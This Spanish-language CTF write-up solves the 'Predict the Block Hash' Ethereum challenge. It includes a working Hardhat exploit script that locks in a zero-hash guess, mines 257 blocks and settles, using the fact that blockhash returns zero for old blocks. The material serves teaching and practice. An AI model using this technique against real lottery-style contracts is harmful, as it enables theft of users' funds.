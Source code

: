   Este desafío vamos a poder resolverlo si al momento de tomar el blockhash, el bloque número <i>settlementBlockNumber</i> se encuentra a más de 256 bloques de distancia (al menos 257 bloques fueron minados luego de su concepción).
</div>

### Test a ejecutar:
<button class="btn btn-danger" id="botonRevelarTest3" onclick="revelarSeccion(document.getElementById('testAEjecutar3'), 'botonRevelarTest3')">Revelar</button>
<div id="testAEjecutar3" style="display:none">

  <div style="text-align:center">
    <b>Test que ejecutaremos</b> 
    <br>
    <i>PD: Recordar cambiar las address según corresponda.</i>
  </div>
  <br>

{% highlight typescript %}
import { expect } from "chai";
import { ethers } from "hardhat";
import { Contract } from "ethers";
import { calmarLaManija } from "../../ayudines/calmarLaManija";

let blockhashContract: Contract;
const challengeAddress: string = "0x3a476198a3d3176a31a0d9746e9B16a830bb952B";

beforeEach(async () => {
  const blockhashFactory = await ethers.getContractFactory("PredictTheBlockHashChallenge");
  blockhashContract = await blockhashFactory.attach(challengeAddress);
})

describe("Predict The Blockhash", async () => {
  it("Resuelve el Lottery challenge - Predict the block hash", async () => {
    await blockhashContract.lockInGuess(ethers.constants.HashZero, {
      value: ethers.utils.parseEther("1"),
      gasLimit: 1e5
    });

    //Espero que se minen 256 bloques más para asegurar que cuando se haga block.blockhash(BloqueDelContratoVictima), la EVM devuelva un valor determinístico (cero).
    for (let i = 0; i < 257; i++) {
      await ethers.provider.send("evm_mine", []); // Usamos el método RPC para minar un bloque manualmente. También se puede "simular" el minado de bloques desde hardhat.config https://hardhat.org/hardhat-network/reference/#mining-modes
      console.log(await ethers.provider.getBlockNumber());
    }
    console.log("--------------SE HAN MINADO 256 BLOQUES!--------------");
    

    await blockhashContract.settle({ gasLimit: 1e5 });
    const isComplete = await blockhashContract.isComplete();
    expect(isComplete, "DESAFÍO INCOMPLETO").to.be.true;
  })
})

{% endhighlight %}
<br>
<b><i>ACLARACIONES</i></b>:
<ul>
    <li>
      Para resolver este desafío en la red de ropsten y obtener los puntos en CTE, se puede alterar este script para que se chequee constantemente el blockNumber de la red, y una vez que se hayan minado 256 bloques, ejecutar la llamada a "settle". Sin embargo, por timeouts del test o posibles complicaciones en la máquina que ejecute el script, es recomendable invocar el método lockInGuess con el hash 0x000... servirse un buen <a href="https://es.wikipedia.org/wiki/Fernet_con_coca">Ferneth</a> y volver después de un tiempo, donde ya seguramente se habrán minado 256 bloques, y llamar a la función "settle".